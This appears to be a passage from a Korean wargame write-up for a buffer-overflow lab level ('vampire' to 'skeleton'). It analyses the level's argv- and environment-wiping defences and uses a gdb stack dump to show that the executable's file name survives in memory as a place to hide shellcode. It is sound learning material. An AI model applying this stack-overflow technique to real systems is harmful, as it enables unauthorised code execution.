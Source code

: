 ```c
    memset(buffer, 0, 40);

	// ultra argv hunter!
	for(i=0; i<saved_argc; i++)
		memset(argv[i], 0, strlen(argv[i]));
}
```

-----

### 0x01. Analysis

- RET 시작주소 `\xbf`
- argv[1] 48byte 길이 제한
- 환경변수 초기화
- buffer배열 초기화
- **argv 인자값 모두 초기화**

argv 인자값 모두 초기화되기 때문에 이전문제처럼 argv[0]값을 이용한 풀이는 불가능해 보인다.

하지만, **환경변수 영역에서 초기화 할 수 없는 영역**이 있다. 그것은 바로 자신의 명령어, 즉 **실행 파일 이름은 초기화 될 수 없다.**

```
[vampire@localhost vampire]$ gdb -q akeleton
(gdb) set dis int
(gdb) b*main
Breakpoint 1 at 0x8048500
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/vampire/akeleton `python -c 'print "\xbf"*48'`

Breakpoint 1, 0x8048500 in main ()
(gdb) x/50s $esp
0xbffffdda:      "i686"
0xbffffddf:      "/home/vampire/akeleton"
0xbffffdf6:      '? <repeats 48 times>
0xbffffe27:      "PWD=/home/vampire"
0xbffffe39:      "REMOTEHOST=192.168.23.1"
0xbffffe51:      "HOSTNAME=localhost.localdomain"
0xbffffe70:      "LESSOPEN=|/usr/bin/lesspipe.sh %s"
0xbffffe92:      "USER=vampire"
0xbffffe9f:      "LS_COLORS="
0xbffffeaa:      "MACHTYPE=i386-redhat-linux-gnu"
0xbffffec9:      "MAIL=/var/spool/mail/vampire"
0xbffffee6:      "INPUTRC=/etc/inputrc"
0xbffffefb:      "BASH_ENV=/home/vampire/.bashrc"
0xbfffff1a:      "LANG=en_US"
0xbfffff25:      "LOGNAME=vampire"
0xbfffff35:      "SHLVL=1"
0xbfffff3d:      "SHELL=/bin/bash2"
0xbfffff4e:      "USERNAME="
0xbfffff58:      "HOSTTYPE=i386"
0xbfffff66:      "OSTYPE=linux-gnu"
0xbfffff77:      "HISTSIZE=1000"
0xbfffff85:      "TERM=ansi"
0xbfffff8f:      "HOME=/home/vampire"
0xbfffffa2:      "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/vampire/bin"
0xbfffffe5:      "/home/vampire/akeleton"
```
